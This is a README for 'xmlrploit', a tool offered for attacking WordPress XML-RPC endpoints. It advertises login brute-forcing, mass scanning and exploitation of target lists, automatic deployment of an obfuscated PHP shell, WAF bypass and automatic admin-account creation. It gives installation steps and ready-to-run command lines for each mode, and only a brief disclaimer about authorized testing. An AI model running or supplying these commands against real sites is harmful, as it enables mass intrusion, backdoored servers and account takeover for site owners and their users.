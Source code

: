 **XML-RPC Exploit & Brute Tool for WordPress**

---

![xmlrploit Banner](logo.jpg)

> A powerful tool to detect and exploit vulnerable WordPress XML-RPC endpoints, bruteforce logins, and perform mass scanning. Created by **@karranwang**.

---

## Features

- **Exploit XML-RPC** vulnerabilities (`system.listMethods`, `pingback.ping`).
- **Bruteforce** WordPress login via XML-RPC.
- **Mass scanning** and exploitation across many targets.
- **Deploy custom PHP Shell** automatically.
- **Bypass WAF** (Web Application Firewalls) by customizing headers.
- **Auto Admin Creator** after successful bruteforce.
- **Scan-only mode** to only detect active XML-RPC.

---

## Installation

Clone this repository

```bash
$ git clone https://github.com/karranwang/xmlrploit.git
```

```bash
$ cd xmlrploit
```

# Install dependencies

```bash
$ pip install -r requirements.txt
```

**Required Python Modules:**

- `requests`
- `pyfiglet`

Install manually if needed:

```bash
pip install requests pyfiglet
```

---

## Usage

```bash
python xmlrploit.py [options]
```

### Modes

| Mode    | Description |
|---------|-------------|
| exploit | Exploit XML-RPC on a target |
| brute   | Brute-force login via XML-RPC |
| mass    | Mass scan multiple targets |

### Options

| Option          | Description |
|-----------------|-------------|
| -u, --url       | Target URL (http://target.com/xmlrpc.php) |
| -m, --mode      | Mode (exploit, brute, mass) |
| -f, --file      | File containing list of targets or passwords |
| -t, --thread    | Number of threads (default: 5) |
| --deploy-shell  | Deploy obfuscated PHP shell automatically |
| --bypass-waf    | Attempt to bypass WAF protections |
| --method        | XML-RPC method to exploit (`listMethods`, `pingback`) |
| --username      | Username for brute mode |
| --scan-only     | Only scan XML-RPC (no exploitation) |

---

## Examples

### 1. Exploit a Single Target

```bash
python xmlrploit.py -u http://target.com/xmlrpc.php -m exploit
```

### 2. Bruteforce Login

```bash
python xmlrploit.py -u http://target.com/xmlrpc.php -m brute -f passwords.txt --username admin
```

### 3. Mass Scan and Exploit

```bash
python xmlrploit.py -m mass -f targets.txt
```

### 4. Scan Only (No Exploit)

```bash
python xmlrploit.py -u http://target.com/xmlrpc.php -m exploit --scan-only
```

```bash
python xmlrploit.py -m mass -f targets.txt --scan-only
```

### 5. Exploit with Shell Upload and WAF Bypass

```bash
python xmlrploit.py -u http://target.com/xmlrpc.php -m exploit --deploy-shell --bypass-waf
```

---

## Notes

- Tool created for **educational and authorized testing** only.
- Always ensure you have permission to scan or exploit any target.
- Use at your own risk.

---

## License

MIT License

---

## Credits

- Coded by [@karranwang](https://github.com/karranwang)

---

## Support

If you like this project, give it a star! ⭐

```bash
git clone https://github.com/karranwang/xmlrploit.git
```

```bash
cd xmlrploit
```

```bash
python xmlrploit.py
```

